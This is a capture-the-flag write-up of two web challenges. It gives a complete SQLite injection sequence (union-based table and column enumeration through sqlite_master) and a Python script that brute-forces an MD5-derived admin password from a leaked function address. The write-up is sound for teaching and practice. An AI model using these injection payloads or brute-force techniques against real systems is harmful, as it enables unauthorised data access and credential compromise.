 ## Store
Firstly, I doubted this is an SQLi challenge. Making POST request with `item=a' or 1;-- -`.
I was able to identify the database which is SQLite thanks to this `item=a' or sqlite_version()=sqlite_version();-- -`.
will return everything. By trying union select, I knew the number of column of the table and the context of each column. `item=a' union select 'a','b','c';-- -`.
So following cheatsheet helped me find all the tables name `item=a' union select 'a','a',(SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%');-- -`.
We got a table whose name flags... Bingo !!!
Enumerated the columns `item=a' union select 'a','a',(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='flags...');-- -`
And finally retrieved the flag.

## Pastebin
### First finding
This challenge is quite interesting.
At first, I didn't know that secrets is a built-in library of python. I though it is something like secrets.py or so. And secrets.token_hex is a function.
Running str(secrets.token_hex) will get us `<function token_hex at 0x7fb85f4c2520>`. Ahhhh, address.
The /view endpoint with id=0 will get us the flag, if we got the MD5 password or the first 3 bytes of the MD5 password.
### id(something)
This function will get the address of the thing we put in.
### Solve
Why not bruteforcing the address. I thought that the address of the secrets.token_hex can be bruteforce. Combining with the hash 3 bytes, we could get the real password.
```python
import hashlib
from tqdm import tqdm

base = 135598372746984
ADMIN_PASSWORD_head = '1797c2'
print("Brute up")
for i in tqdm(range(100_000_000)):
    h = hashlib.md5(f'password-<function token_hex at {hex(base+i)}>'.encode()).hexdigest()
    if h[:6] == ADMIN_PASSWORD_head:
        print(f'Found: {hex(base+i)}')
        print(f"h: {h}")
print("Brute down")
for i in tqdm(range(100_000_000)):
    h = hashlib.md5(f'password-<function token_hex at {hex(base-i)}>'.encode()).hexdigest()
    if h[:6] == ADMIN_PASSWORD_head:
        print(f'Found: {hex(base-i)}')
        print(f"h: {h}")
```
There were a few collision, but anyways, after 10 minutes and some try and error, you will get the flag.
